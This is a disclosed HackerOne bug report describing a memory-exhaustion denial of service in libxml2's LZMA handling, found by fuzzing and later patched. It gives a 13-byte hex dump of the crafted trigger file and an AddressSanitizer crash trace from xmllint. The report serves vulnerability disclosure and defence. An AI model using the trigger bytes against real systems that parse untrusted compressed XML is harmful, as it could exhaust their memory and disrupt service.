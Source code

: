 # Denial of service in libxml2, using malicious lzma file to consume available system memory

## Report Details
- **Report ID**: 270059
- **URL**: https://hackerone.com/reports/270059
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-09-21T01:10:27.957Z
- **Disclosed**: 2019-10-04T17:40:10.289Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
[Reported to the libxml2 devs on 23 August 2017](https://bugzilla.gnome.org/show_bug.cgi?id=786696)
[Patched on 7 September 2017](https://git.gnome.org/browse/libxml2/commit/?id=e2a9122b8dde53d320750451e9907a7dcb2ca8bb)

It was discovered through fuzzing that malicious LZMA compressed files could consume large amounts of memory when decompressed thus posing a DoS risk. I am unsure if a CVE will be assigned in this case.

```
od -tx1 ./test000
0000000 30 ff ff ff ff ff ff ff ff ff ff ff ff
0000015
```

```
./xmllint --valid test000
==31393==ERROR: AddressSanitizer failed to allocate 0x100002000 (4294975488) bytes of LargeMmapAllocator (error code: 12)
==31393==Process memory map follows:
        0x000000400000-0x000000fea000   /root/libxml2/xmllint
        0x0000011ea000-0x0000011eb000   /root/libxml2/xmllint
        0x0000011eb000-0x00000161e000   /root/libxml2/xmllint
        **SNIP**
        0x7f811e9e3000-0x7f811e9e4000
        0x7ffe02632000-0x7ffe02753000   [stack]
        0x7ffe027a9000-0x7ffe027ab000   [vvar]
        0x7ffe027ab000-0x7ffe027ad000   [vdso]
        0xffffffffff600000-0xffffffffff601000   [vsyscall]
==31393==End of process memory map.
==31393==AddressSanitizer CHECK failed: /build/llvm-toolchain-4.0-Ha24C1/llvm-toolchain-4.0-4.0/projects/compiler-rt/lib/sanitizer_common/sanitizer_common.cc:120 "((0 && "unable to mmap")) != (0)" (0x0, 0x0)
    #0 0x4da55f in __asan::AsanCheckFailed(char const*, int, char const*, unsigned long long, unsigned long long) (/root/libxml2/xmllint+0x4da55f)
    #1 0x4f52d5 in __sanitizer::CheckFailed(char const*, int, char const*, unsigned long long, unsigned long long) (/root/libxml2/xmllint+0x4f52d5)
    #2 0x4e4902 in __sanitizer::ReportMmapFailureAndDie(unsigned long, char const*, char const*, int, bool) (/root/libxml2/xmllint+0x4e4902)
    #3 0x4ee205 in __sanitizer::MmapOrDie(unsigned long, char const*, bool) (/root/libxml2/xmllint+0x4ee205)
    #4 0x4218e2 in __asan::asan_malloc(unsigned long, __sanitizer::BufferedStackTrace*) (/root/libxml2/xmllint+0x4218e2)
    #5 0x4d0544 in malloc (/root/libxml2/xmllint+0x4d0544)
    #6 0x7f811e38926e  (/lib/x86_64-linux-gnu/liblzma.so.5+0xf26e)
    #7 0x7f811e382fe0  (/lib/x86_64-linux-gnu/liblzma.so.5+0x8fe0)
    #8 0x7f811e383472  (/lib/x86_64-linux-gnu/liblzma.so.5+0x9472)
    #9 0x7f811e37ceb0 in lzma_code (/lib/x86_64-linux-gnu/liblzma.so.5+0x2eb0)
    #10 0xee7fb6 in xz_decomp /root/libxml2/xzlib.c:577:19
    #11 0xee6bd9 in xz_make /root/libxml2/xzlib.c:652:13
    #12 0xee4fbf in __libxml2_xzread /root/libxml2/xzlib.c:743:17
    #13 0x78121a in xmlXzfileRead /root/libxml2/xmlIO.c:1435:11
    #14 0x78b8bb in xmlParserInputBufferGrow /root/libxml2/xmlIO.c:3337:8
    #15 0x5571e7 in xmlParserInputGrow /root/libxml2/parserInternals.c:324:8
    #16 0x58669d in xmlGROW /root/libxml2/parser.c:2090:5
    #17 0x67d68d in xmlParseDocument /root/libxml2/parser.c:10590:5
    #18 0x6d4114 in xmlDoRead /root/libxml2/parser.c:15183:5
    #19 0x51b413 in parseAndPrintFile /root/libxml2/xmllint.c:2391:9
    #20 0x5125dc in main /root/libxml2/xmllint.c:3767:7
    #21 0x7f811d4893f0 in __libc_start_main /build/glibc-mXZSwJ/glibc-2.24/csu/../csu/libc-start.c:291
    #22 0x41abb9 in _start (/root/libxml2/xmllint+0x41abb9)
```

## Attachments
No attachments
